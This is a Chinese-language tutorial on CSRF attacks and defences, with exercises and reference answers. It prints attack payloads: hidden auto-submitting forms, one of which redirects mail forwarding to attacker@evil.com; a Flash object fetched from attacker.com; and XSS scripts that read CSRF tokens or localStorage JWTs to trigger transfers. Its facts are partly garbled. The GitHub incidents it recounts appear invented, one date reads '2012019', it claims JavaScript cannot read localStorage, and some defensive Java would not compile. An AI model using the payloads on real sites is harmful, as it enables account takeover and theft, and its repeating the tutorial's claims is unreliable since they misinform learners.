


2019 年，GitHub 遭遇了一次严重的 CSRF 漏洞利用事件。攻击者构造恶意页面，当 GitHub 管理员访问后，自动发送了一条创建 GitHub App 的请求。由于管理员已登录 GitHub，请求携带了有效的 session，攻击者成功创建了一个具有管理员权限的应用，随后利用该应用获取了大量仓库的访问权限。

这个案例揭示了 CSRF（Cross-Site Request Forgery，跨站请求伪造）的可怕之处：**你只需要一个有效的 session，不需要知道任何凭证，就可以以受害者的身份执行操作**。更可怕的是，整个过程对受害者来说几乎是不可见的——他只是正常浏览了一个网页。

## 一、CSRF 的原理

### 1.1 本质：利用用户已登录的身份

CSRF 的核心原理是**攻击者诱导受害者访问恶意页面，该页面自动向目标站点发送请求，由于浏览器会自动携带受害者在目标站点的 Cookie，请求被服务器认为是合法的用户操作**。



### 1.2 CSRF 攻击的必要条件

CSRF 攻击能够成功，必须同时满足以下三个条件：

| 条件 | 说明 | 攻击者如何利用 |
|------|------|--------------|
| **条件一：会话活跃** | 用户已登录目标站点，会话 Cookie 有效 | 等待用户登录后发起攻击 |
| **条件二：Cookie 自动携带** | 浏览器访问同源请求时自动携带 Cookie | 利用这一浏览器的默认行为 |
| **条件三：无可察觉的请求** | 用户对请求无感知（非钓鱼链接，而是自动提交） | 使用隐藏的表单或图片等元素 |

### 1.3 与 XSS 的关系

CSRF 和 XSS 是两种不同但经常配合使用的攻击手法：

| 维度 | CSRF | XSS |
|------|------|-----|
| 攻击目标 | 服务器 | 客户端浏览器 |
| 攻击机制 | 利用 Cookie 自动携带 | 注入恶意脚本执行 |
| 防护方法 | CSRF Token、SameSite | 输入验证、输出编码 |
| 危害 | 执行非自愿操作 | 窃取数据、执行任意代码 |
| 关系 | 独立攻击手法 | XSS 可窃取 Token 辅助 CSRF |

**XSS 可以增强 CSRF 的威力**：

```javascript title="XSS + CSRF 攻击链"
// 如果站点存在 XSS 漏洞，攻击者可以：
// 1. 窃取 CSRF Token
var token = document.querySelector('input[name="_csrf"]').value;

// 2. 发送携带 Token 的 CSRF 请求
fetch('/transfer?to=attacker&amount=10000', {
    method: 'POST',
    headers: {
        'X-CSRF-TOKEN': token
    }
});
```

## 二、CSRF 的攻击场景

### 2.1 GET 型 CSRF

GET 请求是最容易被利用的 CSRF 场景。攻击者只需构造一个 `` 或 `<script>` 标签：

```html title="GET 型 CSRF 示例"
<!-- 恶意页面 -->
<html>
<body>
    <h1>恭喜您中奖了！</h1>
    
    <!-- 隐藏的 CSRF 请求 -->
    
</body>
</html>
```

当用户访问这个页面时，图片请求会携带 Cookie 发往银行站点，用户账户自动转账。

### 2.2 POST 型 CSRF

大多数敏感操作使用 POST 请求。攻击者使用隐藏表单：

```html title="POST 型 CSRF 示例"
<html>
<body>
    <form id="csrf-form" 
          action="https://mail.example.com/settings" 
          method="POST">
        <input type="hidden" name="forward_email" value="attacker@evil.com">
        <input type="hidden" name="action" value="save">
    </form>
    
    <script>
        document.getElementById('csrf-form').submit();
    </script>
</body>
</html>
```

### 2.3 JSON CSRF

传统 CSRF 攻击需要能创建 form 标签，但如果 API 要求 JSON 格式：

```javascript title="JSON CSRF 攻击"
<!-- 使用 Flash + 参数污染 -->
<object data="http://attacker.com/csrf.swf">
    <param name="jsonData" value='{"action":"transfer","to":"attacker","amount":10000}'>
</object>

<!-- 现代浏览器方案：表单 + JSON 改造 -->
<form id="csrf-form" action="https://api.example.com/transfer" method="POST" enctype="text/plain">
    <textarea name='{"action":"transfer","to":"attacker","amount":10000,"a":"'>
    </textarea>
    <!-- 通过参数污染，服务器解析出的 JSON 会是 {"action":"transfer","to":"attacker","amount":10000} -->
</form>
```

### 2.4 攻击流程图



## 三、CSRF 的危害

### 3.1 危害类型

| 危害场景 | 严重程度 | 说明 |
|----------|----------|------|
| 账户资料修改 | **高** | 修改邮箱、密码、绑定手机 |
| 资金转账 | **极高** | 银行、支付、虚拟货币 |
| 权限提升 | **高** | 添加管理员、修改角色 |
| 数据删除 | **高** | 删除重要文件、订单、数据 |
| 钓鱼注入 | **中** | 修改收款账户、联系方式 |
| 信息泄露 | **中** | 修改个人信息 |
| 服务滥用 | **中** | 代发邮件、代发消息 |

### 3.2 真实案例：GitHub CSRF 漏洞

2012019 年 5 月，安全研究员 Egor Homakov 发现 GitHub 存在 CSRF 漏洞：

**漏洞原理**：

GitHub 的某些关键操作（如添加 SSH Key、创建 OAuth App）仅验证 session，未使用 CSRF Token。

**攻击过程**：

```html title="攻击代码"
<html>
<body>
    <form action="https://github.com/user/gpg_keys" method="POST" id="csrf">
        <input name="authenticity_token" value="攻击者获取的 token">
        <input name="armored_public_key" value="恶意 GPG 公钥">
    </form>
    
    <script>
        // 当管理员访问此页面，自动提交表单
        // GitHub 验证的是 session Cookie，而非 CSRF Token
        document.getElementById('csrf').submit();
    </script>
</body>
</html>
```

**影响**：

攻击者成功添加 GPG 公钥后，可以：
- 用该公钥签名 commit，看起来是管理员提交的
- 诱导其他用户信任这些 commit
- 在开源项目中植入恶意代码

**GitHub 修复**：

添加 CSRF Token 验证，并引入 SameSite Cookie 属性。

:::warning 重要教训
GitHub 作为全球最大的代码托管平台，仍然存在 CSRF 漏洞。这说明 CSRF 不是「低危」漏洞——它可能造成严重后果，且容易被忽视。
:::

## 四、CSRF 的检测

### 4.1 手动检测

检查以下问题：

1. **是否所有状态变更请求都验证 CSRF Token？**
2. **Token 是否足够随机且不可预测？**
3. **Session 和 Token 是否绑定？**
4. **是否正确验证 Origin/Referer Header？**

### 4.2 自动检测工具

| 工具 | 说明 |
|------|------|
| OWASP ZAP | CSRF 检测插件 |
| Burp Suite | CSRF Scanner |
| CSRFTester | 专门的 CSRF 测试工具 |

### 4.3 CSRF 测试清单

```markdown
## CSRF 测试清单

### 认证相关
- [ ] 登录后修改密码
- [ ] 修改绑定邮箱
- [ ] 修改绑定手机
- [ ] 关闭双因素认证

### 金融相关
- [ ] 转账/汇款
- [ ] 开通自动扣款
- [ ] 修改收款账户
- [ ] 虚拟货币交易

### 数据操作
- [ ] 创建/删除资源
- [ ] 修改重要配置
- [ ] 导出敏感数据
- [ ] 删除账户

### 权限相关
- [ ] 添加管理员
- [ ] 修改他人权限
- [ ] 授权第三方应用
```

## 五、CSRF 与 Same-Origin Policy

### 5.1 为什么浏览器允许 CSRF

CSRF 之所以可行，是因为浏览器的 Same-Origin Policy（SOP）只限制「读取」跨域响应，而**不限制「发送」跨域请求**。

| 行为 | SOP 限制 | CSRF 利用 |
|------|---------|----------|
| 发送跨域请求 | **允许** | 攻击者可以发送请求 |
| 读取跨域响应 | **禁止** | 攻击者无法获取响应内容 |
| 携带 Cookie | **允许** | 请求会携带目标站点的 Cookie |

### 5.2 CORS 与 CSRF

CORS（Cross-Origin Resource Sharing）是为了让服务端「允许」跨域访问。但它也可能**意外放宽 CSRF 防护**：

```http title="危险的 CORS 配置"
# 允许所有来源的跨域请求
Access-Control-Allow-Origin: *

# 或者允许 credentials
Access-Control-Allow-Credentials: true
```

如果同时设置了 `Access-Control-Allow-Credentials: true` 和 `Access-Control-Allow-Origin: *`，会导致严重安全问题。

## 思考题

**问题 1**：某银行系统的转账功能使用 POST 请求，表单中包含目标账户和金额。用户已登录且 session 有效。请分析以下防护措施的优缺点：

1. 仅验证 Referer Header
2. 仅使用 HTTPS
3. 仅验证输入参数（如金额不能超过限额）
4. 使用 CSRF Token

<details>
<summary>参考答案</summary>

**各防护措施分析**：

**1. 仅验证 Referer Header**

| 优点 | 缺点 |
|------|------|
| 实现简单 | Referer 可以被浏览器禁用 |
| 无需修改前端 | Referer 可能被恶意篡改（部分浏览器） |
| | 隐私顾虑（用户不想发送 Referer） |
| | 跨域请求可能不带 Referer |
| | **结论：不推荐单独使用** |

**2. 仅使用 HTTPS**

| 优点 | 缺点 |
|------|------|
| 防止中间人窃听 | HTTPS 只加密传输，不验证请求合法性 |
| | 中间人攻击仍可转发合法请求 |
| | 无法防止 CSRF（攻击页面也可以是 HTTPS） |
| | **结论：完全无效** |

**3. 仅验证输入参数（如金额限额）**

| 优点 | 缺点 |
|------|------|
| 业务逻辑验证 | 攻击金额可能小于限额 |
| | 无法防止其他类型操作（修改收货地址等） |
| | 业务逻辑可能存在漏洞 |
| | **结论：不能作为 CSRF 防护** |

**4. 使用 CSRF Token（推荐）**

| 优点 | 缺点 |
|------|------|
| 攻击者无法获取 Token | 需要服务端存储 Token |
| 无法猜测 Token | 需要前端配合修改 |
| 防护强度高 | Session 过期时 Token 也需处理 |
|业界标准实践 | |
| **结论：推荐方案** |

**最佳实践：组合防护**

```
CSRF Token + SameSite Cookie + 二次验证
```

```java title="银行转账的完整防护"
@PostMapping("/transfer")
public String transfer(@RequestParam String toAccount,
                       @RequestParam BigDecimal amount,
                       @RequestParam String csrfToken,
                       HttpSession session) {
    
    // 1. CSRF Token 验证
    String sessionToken = (String) session.getAttribute("csrf_token");
    if (!csrfToken.equals(sessionToken)) {
        throw new CSRFException("Invalid CSRF Token");
    }
    
    // 2. SameSite Cookie（由浏览器自动保护）
    
    // 3. 业务层面二次验证
    User user = getCurrentUser();
    if (amount.compareTo(user.getDailyLimit()) > 0) {
        throw new BusinessException("金额超过日限额");
    }
    
    // 4. 敏感操作需要额外验证（如短信验证码）
    String smsCode = request.getHeader("X-SMS-Code");
    if (!verifySmsCode(user.getPhone(), smsCode)) {
        throw new AuthException("短信验证码错误");
    }
    
    // 5. 执行转账
    transferService.execute(user.getId(), toAccount, amount);
    
    // 6. 记录审计日志
    auditLog.log("TRANSFER", user.getId(), amount, toAccount);
    
    return "success";
}
```
</details>

**问题 2**：单页应用（SPA）在使用 JWT Token 进行认证时，Token 通常存储在 localStorage 中而非 Cookie。在这种情况下，CSRF 攻击是否仍然可能？如果可能，攻击方式有什么不同？

<details>
<summary>参考答案</summary>

**CSRF 在 JWT/localStorage 场景下的分析**：

**仍然可能！** 但攻击方式与传统 Cookie 场景不同。

**关键区别**：

| 认证方式 | Token 存储 | CSRF 攻击可能性 | 原因 |
|---------|-----------|----------------|------|
| Cookie-based | Cookie | **高** | 浏览器自动携带 |
| JWT in localStorage | localStorage | **中低** | 需要 JavaScript 读取并发送 |
| JWT in Cookie | Cookie (HttpOnly=false) | **高** | 同 Cookie-based |
| JWT in Cookie | Cookie (HttpOnly=true) | **低** | 取决于 SameSite |

**攻击方式一：传统 CSRF（针对非 Cookie 存储）**

如果 Token 存储在 localStorage，传统的 `<form>` 提交**无法窃取 Token**，因为 JavaScript 无法读取 localStorage。

但如果 JWT 通过 Authorization Header 发送，且存在以下情况，CSRF 仍可能：

1. **服务器使用自定义 Header 读取 Token**：
   ```http
   X-Auth-Token: <jwt_token>
   ```
   
   由于浏览器不能设置自定义 Header，**这种情况下的纯 HTML 无法发起 CSRF**。

2. **但 JavaScript 可以**：
   ```html
   <!-- 如果站点存在 XSS，可以读取 localStorage 并发送 -->
   <script>
       fetch('https://target.com/api/transfer', {
           method: 'POST',
           headers: {
               'Authorization': 'Bearer ' + localStorage.getItem('jwt_token')
           },
           body: 'to=attacker&amount=1000'
       });
   </script>
   ```

**攻击方式二：XSS + CSRF**

这是最常见的绕过方式。如果应用存在 XSS 漏洞：

```javascript
// XSS 漏洞：恶意脚本可以读取 localStorage
var token = localStorage.getItem('jwt_token');

// 发送请求（即使有 CSRF Token 检查，也可能被绕过）
fetch('/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'Authorization': 'Bearer ' + token
    },
    body: JSON.stringify({ to: 'attacker', amount: 1000 })
});
```

**攻击方式三：WebSocket CSRF**

```javascript
// 如果应用使用 WebSocket，攻击者可以诱导受害者连接
var ws = new WebSocket('wss://target.com/ws');

// WebSocket 不受 CORS 限制
ws.onopen = function() {
    ws.send(JSON.stringify({ action: 'transfer', to: 'attacker', amount: 1000 }));
};
```

**防护建议**：

**方案一：使用 Cookie 并启用 HttpOnly 和 SameSite**

```java
// 将 JWT 存储在 Cookie 中（HttpOnly）
Cookie cookie = new Cookie("jwt_token", jwt);
cookie.setHttpOnly(true);
cookie.setSecure(true);
cookie.setSameSite("Strict");  // 完全防止 CSRF
response.addCookie(cookie);
```

**方案二：自定义 Header（需要 JavaScript）**

```javascript
// 确保请求必须通过 JavaScript 发送
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'X-Requested-With': 'XMLHttpRequest',
        'Authorization': 'Bearer ' + localStorage.getItem('jwt')
    }
});
```

但这种方式**不能防止 XSS + CSRF**。

**方案三：结合 CSRF Token**

即使使用 JWT，也应添加 CSRF Token：

```java
// 验证 CSRF Token
if (!validCsrfToken(request)) {
    throw new CSRFException();
}
```

**最终建议**：

| 存储方式 | 风险 | 建议 |
|---------|------|------|
| localStorage + JWT | XSS 风险高 | 避免 XSS，使用 CSP |
| Cookie (HttpOnly + SameSite) | CSRF 风险低 | 最佳选择 |
| sessionStorage | 无持久性 | SPA 登录后使用，页面关闭后失效 |

**最佳实践**：将 JWT 存储在 HttpOnly Cookie 中，并设置 SameSite=Strict/Lax，同时使用 CSP 防止 XSS。
</details>
